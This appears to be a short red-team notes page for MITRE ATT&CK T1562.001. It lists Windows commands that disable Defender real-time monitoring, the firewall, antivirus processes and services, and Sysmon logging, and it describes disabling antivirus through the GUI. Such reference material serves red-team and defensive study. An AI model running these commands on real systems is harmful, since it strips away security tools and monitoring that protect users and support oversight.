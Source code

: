 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.001
---
```


# Disable or Modify Tools

### Methods

```powershell
# Disable real-time monitoring for Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable Windows firewall
netsh advfirewall set allprofiles state off

# Manually disable antivirus 
taskkill /F /IM avprocess.exe

# Stop an antivirus service
net stop "$service_name"

# Disable a Windows service
sc config "service name" start= disabled

# Disable Sysmon
## https://twitter.com/_batsec_/status/1327386867365457920?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
logman stop EventLog-Microsoft-Windows-Sysmon-Operational -ets
```

#### Disable Antivirus via the GUI

Non-administrative users are sometimes able to disable or create an exception for the antivirus running on the host via the GUI. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
